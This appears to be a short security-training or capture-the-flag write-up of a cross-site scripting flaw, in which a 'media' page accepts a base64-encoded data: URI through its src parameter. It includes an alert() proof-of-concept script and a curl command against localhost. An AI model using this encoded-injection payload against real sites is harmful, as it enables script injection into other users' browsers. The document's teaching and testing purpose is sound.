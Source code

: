 **Vulnerability: Client-side Resource Manipulation with Encoded Injection**

**Description:**
The media page contains unprotected endpoint that accepts arbitrary parameters that can result in injection of malicious strings, e.g. client-side code (JavaScript) that could lead to XSS vulnerabilities.

**Steps to Reproduce:**
```
http://<YOUR_IP_ADDRESS>/?page=media&src=
```
Encode malisious script 
```
<script>
  alert(‘XSS’);
</script>
```
to `base64` (tool: https://www.base64encode.net/) and pass it as `src` param:
```
curl -s -G 'http://localhost:8080/' \
  --data-urlencode 'page=media' \
  --data-urlencode 'src=data:text/html;base64,PHNjcmlwdD4NCiAgICBhbGVydCjigJhYU1PigJkpOw0KPC9zY3JpcHQ+'
```
This will trigger responses from the web browser that manifests the vulnerability. 

**Impact:**
1. Unprotected data entrypoint potentially resulting in an XSS attack.
https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html

**Mitigation:**
1. Sanitize inputs.

**References:**
1. https://github.com/OWASP/wstg/blob/63fbe5bfb3b93ba4f3edfb0bd02e75429a3be5ce/document/4-Web_Application_Security_Testing/11-Client-side_Testing/06-Testing_for_Client-side_Resource_Manipulation.md
2. https://github.com/OWASP/wstg/blob/63fbe5bfb3b93ba4f3edfb0bd02e75429a3be5ce/document/6-Appendix/D-Encoded_Injection.md#hex-encoding
3. https://github.com/OWASP/wstg/blob/master/document/4-Web_Application_Security_Testing/07-Input_Validation_Testing/01-Testing_for_Reflected_Cross_Site_Scripting.md 